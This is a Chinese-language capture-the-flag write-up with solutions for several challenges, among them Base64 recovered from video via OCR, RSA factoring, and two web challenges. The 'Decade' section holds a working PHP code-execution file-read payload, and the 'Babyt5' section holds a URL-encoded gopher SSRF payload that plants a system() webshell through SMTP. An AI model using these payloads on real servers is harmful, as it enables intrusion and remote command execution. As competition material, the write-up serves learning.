





# Write up
## 签到题



直接IDA Pro 打开，查找字符串Password accepted



```bash
.rdata:0000000141624F0B                 db    0
.rdata:0000000141624F0C                 db    0
.rdata:0000000141624F0D                 db    0
.rdata:0000000141624F0E                 db    0
.rdata:0000000141624F0F                 db    0
.rdata:0000000141624F10 aWelc0meToTheFu db 'welc0me to the  fun gAme th1s is y0ur f1ag e9121ab0-6533-4bd8-bfb'
.rdata:0000000141624F10                                         ; DATA XREF: sub_140707870:loc_140707DC2↑o
.rdata:0000000141624F10                 db '3-fe05a49d8ff4',0
.rdata:0000000141624F60                 db    0
.rdata:0000000141624F61                 db    0
.rdata:0000000141624F62                 db    0
.rdata:0000000141624F63                 db    0
```

## Unlimited BASE64


题目提示是BASE64,视频的最后是==,肯定是BASE64编码的截止符,故考虑到用cv处理视频.

先python输出avi的帧序列,一共有2160张图片.

```python
# coding=utf-8

# 全局变量
VIDEO_PATH = './ubw.avi' # 视频地址
EXTRACT_FOLDER = './UAV_pic' # 存放帧图片的位置
EXTRACT_FREQUENCY = 3.3333333333 # 帧提取频率


def extract_frames(video_path, dst_folder, index):
    # 主操作
    import cv2
    video = cv2.VideoCapture()
    if not video.open(video_path):
        print("can not open the video")
        exit(1)
    count = 1
    while True:
        _, frame = video.read()
        if frame is None:
            break
        if count % EXTRACT_FREQUENCY == 0:
            save_path = "{}/{:>03d}.jpg".format(dst_folder, index)
            cv2.imwrite(save_path, frame)
            index += 1
        count += 1
    video.release()
    # 打印出所提取帧的总数
    print("Totally save {:d} pics".format(index-1))


def main():
    # 递归删除之前存放帧图片的文件夹，并新建一个
    import shutil
    try:
        shutil.rmtree(EXTRACT_FOLDER)
    except OSError:
        pass
    import os
    os.mkdir(EXTRACT_FOLDER)
    # 抽取帧图片，并保存到指定路径
    extract_frames(VIDEO_PATH, EXTRACT_FOLDER, 1)


if __name__ == '__main__':
    main()
```

注意是30Hz',800x800的分辨率,如果这里修改了分辨率,之后的裁切会有问题.

尝试使用OCR自动识别,但由于主要是白边,总输出是空.

```python
#!/usr/bin/python3
# -*- coding: UTF-8 -*-
 
from PIL import Image
import pytesseract
 
text=pytesseract.image_to_string(Image.open('w.JPG'),lang='eng')
print(text)
```

考虑裁切

```python

import matplotlib.pyplot as plt
import matplotlib.image as mpimg
import numpy as np
import os
from sec import *
im="001.png"

def hash2(im):
    i=mpimg.imread(im).min(axis=2)
    j=np.rint(i)
    return [int(i) for i in list((1-j).sum(axis=1))]

def new(im):
    i=mpimg.imread(im).max(axis=2)
    j=np.rint(i)
    j=1-j
    # print(j[:,1:],j.sum(axis=0)[0])
    while True:
        if j[-1].sum()==0:
            j=j[:-1]
        else:
            break
    
    while True:
        if j[0].sum()==0:
            j=j[1:]
        else:
            break
    
    while True:
        if j.sum(axis=0)[0]==0:
            j=j[:,1:]
        else:
            break
    
    while True:
        if j.sum(axis=0)[-1]==0:
            j=j[:,:-1]
        else:
            break
    j=1-j
    j=j[:,:,np.newaxis]
    k=np.concatenate((j,j,j),axis=2)
    mpimg.imsave("../new/"+im,k)


jb=[" "for i in range(2160)]

for i,j,k in os.walk("../cropped/"):
    for f in k:
        im="../cropped/"+f
        try:
            i=mpimg.imread(im).min(axis=2)
        except:
            continue
        i=np.rint(i*5)
        i=5-i
        j=i.sum()
        if j==640:

            print(f,"l",i.max(axis=0))
            jb[int(f[:f.find(".")])]="l"
        elif j==672:
            print(f,"I",i.max(axis=0))
            jb[int(f[:f.find(".")])]="I"
open("1.txt","w").write("".join(jb))
exit(0)

def getc(h):
    j=1000000
    p=0
    
    for i in v:
        if len(v[i])!=len(h):
            continue
        s=np.abs(np.array(v[i])-np.array(h)).sum()
        if s<j:
            j=s
            p=i

    # print(j)
    if j>10:
        return None
    return p

for i,j,k in os.walk("."):
    for f in k:
        # print(f)
        if f[-1]=="y" or f=="1.png":
            continue
        print(f,getc(hash2(f)),hash2(f))
        if not getc(hash2(f)):
            c=input()
```

普通的 `pillow` 包太粗燥,需要精细裁切去分辨l和I,在 `Arial` 下两者除了I稍微宽一点没有区别. 在放大像素五倍后,我们自动化了检测过程.得到了这样的图片.


我们手写了一遍字母检测的方式,以从左到右,从上至下扫描的方式,得到了黑像素块在这行这列的个数,从而推出字母.注意在本来的大小,I和l的误差为0.2,放大五倍以后就得到1的差距.(手写正则化.)

```python
v={
    "i":[4, 4, 4, 4, 4, 0, 0, 0, 0, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4],
    "V":[9, 8, 10, 8, 8, 9, 8, 9, 8, 8, 10, 8, 8, 9, 8, 8, 8, 8, 8, 8, 8, 8, 8, 7, 8, 8, 6, 8, 7, 6, 6, 5],
    "B":[17, 19, 21, 22, 10, 10, 10, 9, 9, 9, 10, 9, 10, 20, 19, 21, 22, 11, 10, 10, 9, 10, 10, 9, 9, 10, 10, 11, 23, 22, 20, 17],
    "O":[9, 14, 17, 21, 14, 12, 10, 10, 8, 10, 8, 8, 10, 10, 9, 9, 9, 10, 10, 10, 8, 8, 10, 8, 10, 10, 11, 14, 21, 17, 14, 9],
    "R":[19, 22, 23, 24, 10, 9, 9, 8, 8, 8, 8, 9, 9, 11, 23, 22, 20, 17, 9, 9, 9, 9, 10, 9, 9, 10, 9, 9, 10, 9, 9, 10],
    "w":[12, 13, 12, 14, 13, 14, 16, 15, 14, 15, 16, 13, 14, 16, 15, 13, 15, 15, 13, 12, 12, 10, 9],
    "0":[7, 11, 13, 12, 9, 8, 8, 8, 8, 8, 9, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 9, 12, 13, 11, 7],
    "K":[11, 11, 11, 11, 11, 11, 11, 11, 11, 10, 10, 10, 10, 11, 13, 15, 14, 13, 12, 12, 10, 10, 10, 11, 10, 10, 11, 11, 10, 10, 11, 11],
    "G":[9, 14, 18, 20, 13, 12, 9, 10, 9, 9, 7, 4, 4, 4, 5, 5, 18, 18, 17, 17, 8, 9, 8, 9, 9, 10, 12, 15, 22, 19, 15, 9],
    "g":[10, 14, 17, 15, 12, 9, 10, 8, 8, 8, 9, 9, 8, 8, 8, 8, 10, 9, 11, 14, 16, 14, 10, 4, 4, 8, 8, 9, 12, 15, 13, 7],
    "o":[7, 11, 15, 14, 11, 9, 10, 8, 8, 8, 8, 8, 8, 8, 8, 8, 10, 9, 11, 14, 15, 12, 7],
    "A":[5, 6, 7, 7, 7, 8, 9, 8, 8, 8, 8, 9, 9, 8, 9, 9, 9, 8, 9, 20, 21, 22, 18, 10, 9, 9, 10, 9, 10, 9, 8, 10],
    "N":[9, 10, 10, 11, 12, 12, 13, 14, 14, 14, 14, 14, 14, 14, 14, 14, 14, 14, 14, 14, 14, 14, 14, 14, 15, 14, 13, 13, 12, 11, 11, 10],
    "S":[9, 14, 17, 19, 12, 10, 9, 8, 9, 8, 4, 5, 7, 11, 13, 15, 13, 10, 7, 6, 4, 9, 9, 10, 8, 9, 11, 13, 20, 18, 15, 9],
    "U":[8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 9, 9, 9, 8, 9, 9, 10, 13, 20, 18, 14, 9],
    "h":[4, 4, 4, 4, 4, 4, 4, 4, 4, 10, 14, 16, 18, 12, 10, 9, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8],
    "E":[23, 23, 23, 23, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 22, 22, 22, 21, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 23, 24, 24, 24],
    "5":   [16, 17, 17, 17, 4, 3, 4, 4, 4, 4, 9, 15, 17, 14, 11, 9, 5, 5, 4, 4, 4, 4, 4, 8, 9, 9, 10, 11, 12, 14, 12, 7],
    "Q":[8, 14, 17, 20, 15, 12, 10, 10, 9, 10, 9, 9, 9, 9, 9, 9, 9, 9, 10, 9, 9, 9, 10, 12, 15, 17, 16, 15, 21, 21, 20, 15, 4, 1],
    "M":[13, 13, 15, 15, 15, 17, 16, 15, 16, 15, 15, 16, 15, 15, 16, 15, 15, 16, 15, 15, 16, 15, 14, 16, 15, 14, 16, 15, 14, 13, 13, 12],
    "D":[17, 20, 22, 23, 12, 10, 10, 10, 10, 9, 10, 10, 10, 9, 9, 9, 9, 9, 9, 10, 10, 9, 9, 10, 9, 10, 10, 12, 23, 22, 20, 17],
    "d":[4, 4, 4, 4, 4, 4, 4, 4, 4, 11, 15, 17, 15, 12, 10, 10, 8, 8, 8, 8, 8, 8, 8, 8, 8, 10, 9, 11, 14, 17, 15, 10],
    "x": [10, 9, 10, 10, 9, 9, 9, 10, 8, 6, 6, 5, 7, 8, 9, 9, 9, 9, 9, 9, 9, 10, 9],
    "q": [10, 14, 16, 15, 12, 10, 10, 8, 8, 8, 8, 8, 8, 8, 8, 8, 10, 9, 10, 14, 17, 13, 9, 4, 4, 4, 4, 4, 4, 4, 4, 4],
    "s":[7, 12, 14, 12, 9, 9, 7, 5, 7, 9, 12, 13, 11, 8, 6, 8, 8, 9, 9, 12, 15, 12, 8],
    "T":[26, 26, 26, 25, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4],
    "L":[5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 20, 20, 20, 20],
    "f":[7, 8, 9, 10, 5, 4, 4, 4, 4, 12, 12, 12, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4],
    "P":[18, 21, 22, 23, 11, 10, 10, 10, 9, 9, 9, 10, 10, 10, 12, 23, 22, 20, 17, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5, 5],
    "t": [1, 3, 4, 4, 4, 4, 4, 4, 11, 11, 11, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 7, 8, 7, 6],
    "k": [4, 4, 4, 4, 4, 4, 4, 4, 4, 9, 9, 9, 9, 9, 9, 9, 9, 9, 10, 11, 12, 9, 9, 9, 8, 9, 9, 9, 9, 9, 9, 9],
    "C":[8, 14, 17, 20, 14, 12, 10, 10, 9, 7, 4, 4, 4, 5, 5, 5, 5, 5, 5, 4, 4, 6, 10, 8, 10, 10, 12, 14, 20, 18, 14, 8],
    "j":[4, 4, 4, 4, 4, 0, 0, 0, 0, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 5, 7, 8, 7, 6],
    "F":[21, 21, 21, 21, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 19, 19, 19, 19, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4],
    "J":[4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 7, 8, 8, 9, 8, 10, 14, 14, 10, 6],
    "6":[7, 11, 14, 12, 9, 9, 9, 8, 4, 4, 4, 9, 14, 17, 16, 12, 11, 9, 10, 8, 8, 8, 8, 9, 9, 8, 9, 10, 12, 14, 11, 6],
        "I":[4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4],
    "n":[10, 14, 16, 18, 12, 10, 9, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8],
    "/":[3, 3, 3, 3, 3, 3, 4, 3, 3, 3, 3, 3, 3, 4, 3, 3, 3, 3, 3, 3, 4, 3, 3, 4, 3, 3, 3, 3, 3, 3, 4, 3],
    "r":[8, 10, 12, 9, 6, 5, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4],
    "u":[8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 9, 9, 11, 13, 18, 16, 14, 10],
    "1":[3, 4, 5, 5, 7, 8, 9, 11, 10, 9, 7, 5, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4],
    "c": [7, 11, 14, 13, 10, 9, 8, 7, 4, 4, 4, 4, 4, 4, 8, 8, 9, 8, 9, 13, 14, 11, 7],
    "Z":[23, 23, 23, 23, 5, 5, 6, 6, 5, 5, 5, 6, 6, 5, 5, 5, 5, 6, 5, 5, 5, 5, 6, 5, 5, 5, 5, 5, 25, 25, 25, 25],
    "2":[7, 11, 15, 14, 10, 10, 8, 9, 8, 9, 4, 4, 5, 4, 5, 5, 5, 5, 5, 6, 6, 6, 6, 5, 5, 5, 5, 4, 20, 21, 21, 22],
    "e":[7, 11, 15, 14, 8, 8, 8, 8, 8, 21, 21, 21, 4, 4, 4, 8, 10, 9, 11, 13, 15, 12, 7],
    "m":[15, 21, 26, 30, 18, 15, 14, 12, 12, 12, 12, 12, 12, 12, 12, 12, 12, 12, 12, 12, 12, 12, 12],
    "3":[6, 11, 14, 12, 8, 9, 8, 9, 7, 4, 4, 4, 6, 8, 8, 10, 8, 6, 5, 5, 4, 4, 4, 8, 9, 9, 9, 10, 12, 14, 12, 7],
    "X":[9, 10, 11, 9, 9, 10, 10, 9, 9, 10, 10, 9, 8, 8, 6, 6, 7, 8, 10, 9, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 11, 10],
    "y":[8, 9, 8, 8, 9, 8, 8, 8, 8, 7, 8, 8, 8, 8, 8, 8, 8, 7, 7, 7, 5, 5, 4, 4, 4, 3, 4, 4, 9, 7, 6, 5],
       "9":[6, 10, 14, 13, 10, 9, 8, 9, 8, 8, 8, 8, 9, 9, 10, 11, 13, 16, 17, 14, 10, 4, 4, 4, 7, 8, 8, 10, 12, 13, 11, 7],
    "H":[8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 25, 25, 25, 25, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8],
    "7":[21, 21, 21, 21, 5, 5, 4, 5, 5, 4, 5, 4, 5, 4, 5, 4, 5, 4, 5, 4, 4, 5, 4, 4, 4, 5, 4, 4, 4, 4, 4, 4],
    "3":[6, 11, 14, 12, 8, 9, 8, 9, 7, 4, 4, 4, 6, 8, 8, 10, 8, 6, 5, 5, 4, 4, 4, 8, 9, 9, 9, 10, 12, 14, 12, 7],
    "b":[4, 4, 4, 4, 4, 4, 4, 4, 4, 9, 14, 16, 14, 11, 10, 9, 8, 8, 8, 8, 8, 8, 8, 8, 9, 8, 10, 11, 15, 17, 14, 10],
    "v":[8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 8, 7, 7, 8, 8, 7, 6, 6, 5, 4],
    "t^":[3, 4, 4, 4, 4, 4, 4, 11, 11, 11, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 7, 8, 7, 6],
    "z":[19, 19, 19, 5, 5, 4, 4, 5, 5, 5, 5, 5, 5, 5, 4, 5, 5, 5, 5, 11, 21, 21, 21],
    "a":[8, 13, 15, 12, 10, 8, 8, 7, 6, 12, 16, 17, 13, 10, 9, 8, 9, 10, 12, 16, 18, 15, 11],
    "W":[13, 15, 16, 16, 16, 15, 16, 15, 16, 16, 15, 15, 15, 16, 15, 16, 15, 16, 14, 14, 15, 15, 15, 13, 14, 15, 15, 13, 12, 12, 10, 9],
"8":[7, 11, 13, 12, 10, 8, 9, 8, 8, 9, 8, 10, 10, 13, 11, 13, 13, 10, 9, 10, 8, 8, 8, 8, 8, 10, 8, 10, 14, 15, 12, 7],
"Y":[11, 10, 10, 10, 9, 10, 10, 11, 10, 10, 11, 9, 10, 10, 9, 8, 6, 5, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4, 4],
"4": [4, 5, 5, 6, 7, 8, 8, 8, 8, 7, 8, 8, 7, 8, 8, 8, 8, 8, 7, 7, 7, 22, 22, 22, 22, 3, 4, 4, 4, 4, 4, 3],
"+": [4, 4, 4, 4, 4, 4, 4, 4, 4, 22, 22, 22, 21, 4, 4, 4, 4, 4, 4, 4, 4, 4],
# "S_":[7, 11, 13, 12, 10, 8, 9, 8, 8, 9, 8, 10, 10, 13, 11, 13, 13, 10, 9, 10, 8, 8, 8, 8, 8, 10, 8, 11, 14, 15, 12, 7],
"4_":[3, 5, 5, 6, 7, 7, 8, 8, 8, 6, 8, 7, 6, 7, 8, 7, 8, 7, 7, 7, 8, 22, 22, 22, 22, 4, 4, 4, 3, 4, 3, 4],
"4__":[4, 5, 5, 5, 6, 7, 7, 7, 7, 6, 7, 7, 6, 7, 7, 7, 7, 7, 7, 7, 7, 22, 22, 22, 22, 3, 4, 4, 3, 3, 3, 4],
"4___":[4, 5, 5, 5, 7, 8, 7, 7, 7, 6, 7, 7, 6, 7, 8, 7, 8, 8, 7, 7, 8, 22, 22, 22, 22, 4, 4, 3, 3, 4, 4, 3],
"4____": [4, 5, 6, 5, 6, 7, 8, 8, 7, 7, 8, 8, 7, 8, 8, 8, 8, 8, 8, 7, 8, 22, 22, 22, 22, 4, 4, 3, 3, 3, 4, 4],
"4_____":[4, 4, 5, 5, 7, 7, 8, 8, 8, 7, 8, 8, 7, 8, 8, 8, 8, 7, 8, 6, 8, 22, 22, 22, 22, 4, 4, 3, 4, 3, 4, 4],
"=":[22, 22, 21, 21, 0, 0, 0, 0, 0, 0, 22, 21, 22, 21]
}
```

最后得到base64,从而得到flag.

```
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
```


## Decade


```py
import requests
import re

container_url = "ed212654824d42e788e9fd1a51aa558d2177e16fe4c249c0"
payload = "echo(implode(file(end(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion()))))))))))))))));"

flag = None
while not flag:
    result = requests.get("http://{}.changame.ichunqiu.com/code/?code={}".format(container_url, payload))
    flag = re.search(r'flag\{.*\}', result.content.decode())

print(flag.group())

```

### payload 解析
`phpversion()`返回一个字符串，用`crypt()`随机哈希后再用`hebrevc()`有概率产生开头为`.`的字符串。用`chr(ord())`可以拿到这个字符串的首个字符，也就是`.`。再将`.`传入`next(scandir())`拿到`..`，`chdir()`可以切换到上层目录也就是根目录，并返回`true`或者`false`。再用`chr(ord(crypt()))`产生字符串`.`，用`end(scandir())`拿到根目录下的最后一个文件，用`file()`读取后用`implode()`拼接，最后`echo()`出flag。


## Poly
```py
from libnum import n2s
s = 0x476f6f6421546869735f69735f666c61673a666c61677b36303639636166362d303965312d343934612d626362352d6239346538663238383937317d
print(n2s(s))
```

观察 `chall.sage` 可以知道 `output` 的前两行是 `r1` 和 `r2` ，第三行和第四行是 `r1` 和 `r2` 的加密，仔细观察发现该加密其实就是在其前面加了4个0。所以 `output` 的最后两行去掉前导的4个0就是 flag 的前半部分和后半部分。粘贴在一起就是上面脚本的 `s `。

## Babyt5
//本题极有难度,后半部分借鉴 `https://www.jianshu.com/p/804d95f6d6fb`

由题意得是一道 SSRF 题

查 google 得这是利用 curllib 漏洞的题,不大能通过php的读取而实现,通过传入x参数读入任意文件.



接下来想如何绕过 php 的 strpos 检测,想到使用%2570转义 p .知道这些后,用字典爬到 `/var/www/html/` 下的所有文件,发现有 flag.php.从而得到提示.



由于想到是内网访问,于是侦探一下 `/etc/hosts` 文件,发现内网 ip. 从而



至此可以通过内网访问得到权限,发现25端口开着,就考虑用 gophers 和 Gopherus 在内网操作一下.

最终 Payloads 
```
%67%6f%70%68%65%72%3a%2f%2f%31%37%32%2e%31%38%2e%30%2e%32%3a%32%35%2f%5f%4d%41%49%4c%25%32%30%46%52%4f%4d%3a%25%33%43%6d%69%72%61%63%6c%65%25%34%30%37%37%38%2e%63%6f%6d%25%33%45%25%30%41%52%43%50%54%25%32%30%54%6f%3a%25%33%43%25%33%46%25%32%30%73%79%73%74%65%6d%25%32%38%25%32%34%5f%47%45%54%25%35%42%25%32%37%6d%69%72%61%63%6c%65%25%32%37%25%35%44%25%32%39%25%33%42%25%32%30%25%33%46%25%33%45%25%30%41%44%41%54%41%25%30%41%46%72%6f%6d%3a%25%33%43%6d%69%72%61%63%6c%65%25%34%30%37%37%38%2e%63%6f%6d%25%33%45%25%30%41%53%75%62%6a%65%63%74%3a%74%65%73%74%25%30%41%4d%65%73%73%61%67%65%3a%74%65%73%74%25%30%41%2e
```

拿到 webshell 以后,用 locate Flag 得知 Flag 的位置.就在根目录下


解密后得到flag ` flag{dcbd1fa555331261ed1bfd21c3dd889f} `

## rsa
```python
from fractions import Fraction
n=9538795663851271297602738029671089878718012242935213096566250130325046936720540247534143498025477544161347330379679111765871420732255741210434736423951962189227302658997497664520929375215715960063615792480965807127438948044298348300153102760490410578638259665656608784635088735809470916136628779400145983632930861883762707606629208260803446083579674497451514650309351925430391515629898218875049677870989016071086844819626778388370764400242376469343158294638240660190754978627356076115228410162956087266527271225439142347304100660800517276772407728290414074912243665126741030948775883739544952378188264714716087909797

a123=368284101618076523549199130884422355928051525996327977632544904437878504262870825378516827225793010165434494157238379685995430409966951122729243411694569562164062815098110639750101378457641471316188502263725098231679401928494160942213175404259256770984218593245458108598930926260386443799301699336309331946341173652201791293571029025818674575198311845811957606474490230382511996537893448524426809391980637983473305318819523408854264623254226127223862150173575206444726570183096891630129244778802793476295746913846105454198627
#123^e mod n -> e=251


e=251

a=19077591327702542595205476059342179757436024485870426193132500260650093873441080495068286996050955088322694660759358223531742841464511482420869472847903924378454605317994995329041858750431431920127231584961931614254877896088596696600306205520980821157276519331313217569270177471618941832273257558800291967266057799408185825199394392306374394195697993019961311696247374832761757990150416392201444079060627610573918631913438062954960835929982836033906925917632413007648356037059843552967726871763559759125837289869091638924336309932526582201350695938677991368335828814565265478203873169858685929462350511138398905572292
a=a-n-n
a=196075640660409986135975784767502028538644025058282395628670981900974958890619954451344723318649578431744942274184506178219307129498083095220609328355931687266846079805131400737270051437647584592782747418213354229728108610925547647805880482097163218511341484311783416306321402379596024705973981708966729752698
#a=p+q
b=n
#b=p*q
c=a*a-4*b

sqt=2**2*3*7*19**2*2707*207624711563653359355102443473413319722101010295233398242366198212184685659213936146571619852904134818292356647211399523515657634791399098499893832150684720241600664756380282731603217199440170278751689311591224315492847932363378314645555064219763692985258891000918081205836978220934317917040682522147
#sqt=a^2-4b的平方根
p=a+sqt
p//=2
q=a-p
#求解出p和q
mm=7303495910407762399046490836902121070389476875516762048462433039234972742941586801378979220008051262826174054961747648114128456872349675769941760630519744351742977740846748646739901172672743584989842268056810152117350241337045055812845489372389014195433916347255846499434232234822333192328886207187844781726928951986353054876826105507064928478812402103648940709131760865763234071703554208057808885564381400571862422316195578258814602362582573148358552148686182480215663291366798585241933446701357953551496955627421526567152576426417189707335038601040167826900549139608192971559659991213411381604721734898065256138516
#mm是m^e mod n

inv=(p-1)*(q-1)
#逆元

def exgcd(m,n,x,y):
	if n == 0:
		x = 1
		y = 0
		return (m,x,y)
	a1 = b = 1
	a = b1 = 0
	c = m
	d = n
	q = int(c//d)
	r = c%d
	while r:
		c = d
		d = r
		t = a1
		a1 = a
		a = t-q*a
		t = b1
		b1 = b
		b = t-q*b
		q = int(c//d)
		r = c%d
	x = a
	y = b
	return (d,x,y)
 
m = inv
n = e
ans = exgcd(m,n,0,0)
 
print("gcd(%d,%d) = %d"%(m,n,ans[0]))
